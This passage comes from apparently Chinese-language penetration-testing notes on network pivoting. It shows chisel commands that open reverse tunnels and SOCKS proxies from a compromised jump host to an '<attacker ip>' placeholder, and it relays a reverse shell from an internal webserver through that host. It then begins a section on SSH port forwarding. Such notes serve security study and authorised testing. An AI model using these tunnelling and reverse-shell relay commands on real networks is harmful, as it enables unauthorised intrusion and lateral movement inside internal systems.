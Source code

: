 反向：attacker 訪問 `127.0.0.1:5555` 可以接著訪問內網機 8000 port

* 攻擊機執行：`chisel server --reverse --port 12345 --socks5`
* 跳板機執行：`chisel client <attacker ip>:12345 R:1080:socks`
* 跳板機在 localhost:1080 開一個 socks proxy 的 port

```bash frame="none"
# 探測內網服務
# localhost:9999 -> webserver:80
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 R:9999:<webserver ip>:80
# 內網機反連
# jump:9999 -> attacker:8888
# 從 webserver 打 reverse shell 到 jump:9999，在給 attacker:8888
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 0.0.0.0:9999:<attacker ip>:8888
# 代理模式
chisel server --reverse --port 12345 --socks5
chisel client <attacker ip>:12345 R:1080:socks
```

> 推薦網內的流量使用代理模式，但是 socket proxy 比較慢而且會掉包，因此建議不要從最外層掃描深入機器的所有 port，要使用 C2 Agent！

##  SSH Tunneling
* 在兩台機器的特定 port 建立 ssh 連線
* 可穿透防火牆
* A 點上的某個 Port X 所傳送的資料轉送(forward)至 B 點上的 Port Y
* 種類：Local, Remote, Dynamic
* 角色
Client：可執行 SSH 來啟動 Port Forwarding 的任何機器
SSH Server：可以被 client 用 SSH 連進去的機器
Target Server：某台你想建立連線的機器，為了對外開放這台機器上的服務
Client/SSH Server 也可是當作 target，不一定要有 3 台機器才能 port forwarding


Local：

![Source](../../assets/images/tunneling.png)
